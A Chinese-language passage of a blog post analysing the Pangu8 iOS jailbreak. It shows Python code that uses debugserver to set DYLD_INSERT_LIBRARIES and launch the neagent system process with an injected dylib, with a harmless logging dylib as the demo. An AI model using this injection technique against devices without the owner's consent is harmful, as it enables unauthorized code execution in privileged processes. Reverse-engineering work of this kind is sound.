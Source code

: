 之后获取com.pangu.ipa1的Path，用来拼接dylib的绝对路径。其实这里在之前取Container时就可以直接获取到Path，不过还是按照Pangu8的换用InstallationProxyClient实现了下：

~~~python
def get_pangunew_Path(bundle_id="com.pangu.ipa1"):
  instproxy = lockdown_get_service_client(InstallationProxyClient)
  return instproxy.get_path_for_bundle_identifier(bundle_id)

app_path = get_pangunew_Path()
app_path = os.path.dirname(app_path)
~~~

再来就是用 DebugServerClient 设置环境变量然后启动neagent了：

~~~python
def debugserver_inject_neagent(app_container, app_path, dylib):
  debugserver = lockdown_get_service_client(DebugServerClient)

  # SetWorkingDir: 为 app_container
  with DebugServerCommand("QSetWorkingDir:", 1, [app_container]) as cmd:
    print debugserver.send_command(cmd)

  # 在环境变量里加上 DYLD_INSERT_LIBRARIES=app_path/dylib
  print debugserver.set_environment_hex_encoded("DYLD_INSERT_LIBRARIES=%s/%s" % (app_path, dylib))

  # 启动 /usr/libexec/neagent
  print debugserver.set_argv(1, ["/usr/libexec/neagent"])
~~~

完整源码：[`pangu8_neagent_exploit.py`](https://github.com/upbit/python-imobiledevice_demo/blob/master/pangu8_neagent_exploit.py)

这里neagent实际是没有`get-task-allow=true`的，不过既然dylib被加载，那么应该是从`__DATA,__mod_init_func`开始执行的。
看了下xuanyuansword.dylib确实如此。

写了个验证用的demo_dylib.dylib，代码如下：

~~~c
// __DATA,__mod_init_func
__attribute__((constructor))
void demo_main()
{
  NSLog(@"demo dylib loaded");
}
~~~

编译后查看 `__DATA,__mod_init_func` 指向demo_main。复制到com.pangu.ipa1的Path路径下：

~~~python
def main():
  bundle_id = "com.pangu.ipa1"
  #dylib = "xuanyuansword.dylib"
  dylib = "demo_dylib.dylib"

  app_container = get_pangunew_Container(bundle_id)
  print "Container: %s" % app_container
  app_path = get_pangunew_Path(bundle_id)
  app_path = os.path.dirname(app_path)
  print "Path: %s" % app_path

  debugserver_inject_neagent(app_container, app_path, dylib)
~~~
